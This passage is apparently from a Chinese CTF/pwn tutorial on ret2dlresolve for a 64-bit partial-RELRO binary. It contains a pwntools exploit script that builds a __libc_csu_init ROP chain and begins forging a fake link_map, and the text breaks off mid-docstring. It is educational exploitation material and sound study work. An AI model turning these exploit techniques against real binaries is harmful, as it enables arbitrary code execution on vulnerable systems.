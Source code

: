 ```c
    size_t l_tls_dtor_count;
    Elf64_Addr l_relro_addr;
    size_t l_relro_size;
    unsigned long long l_serial;
    struct auditstate l_audit[];
} *
```



![image-20220402113032068](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220402113032068.png)

这是wiki的做法，利用csu来实现完整输入。有时候无法完全输入fake_linkmap时也可以用栈迁移

```python
from pwn import *
# context.log_level="debug"
context.arch = "amd64"
p = process("./main_partial_relro_64")
elf = ELF("./main_partial_relro_64")
libc = ELF('libc.so.6')
bss_addr = elf.bss()
csu_front_addr = 0x400780
csu_end_addr = 0x40079A
vuln_addr = 0x400637

def csu(rbx, rbp, r12, r13, r14, r15):
    # pop rbx, rbp, r12, r13, r14, r15
    # rbx = 0
    # rbp = 1, enable not to jump
    # r12 should be the function that you want to call
    # rdi = edi = r13d
    # rsi = r14
    # rdx = r15
    payload = p64(csu_end_addr)
    payload += p64(rbx) + p64(rbp) + p64(r12) + p64(r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += '\x00' * 0x38
    return payload


def ret2dlresolve_with_fakelinkmap_x64(elf, fake_linkmap_addr, known_function_ptr, offset_of_two_addr):
    '''
    elf: is the ELF object

    fake_linkmap_addr: the address of the fake linkmap

    known_function_ptr: a already known pointer of the function, e.g., elf.got['__libc_start_main']

    offset_of_two_addr: target_function_addr - *(known_function_ptr), where
                        target_function_addr is the function you want to execute

    WARNING: assert *(known_function_ptr-8) & 0x0000030000000000 != 0 as ELF64_ST_VISIBILITY(o) = o & 0x3

    WARNING: be careful that fake_linkmap is 0x100 bytes length   

    we will do _dl_runtime_resolve(linkmap,reloc_arg) where reloc_arg=0

    linkmap:
        0x00: l_addr = offset_of_two_addr
      ↓fake_DT_JMPREL entry, addr = fake_linkmap_addr + 0x8
        0x08: 17, tag of the JMPREL
        0x10: fake_linkmap_addr + 0x18, pointer of the fake JMPREL
```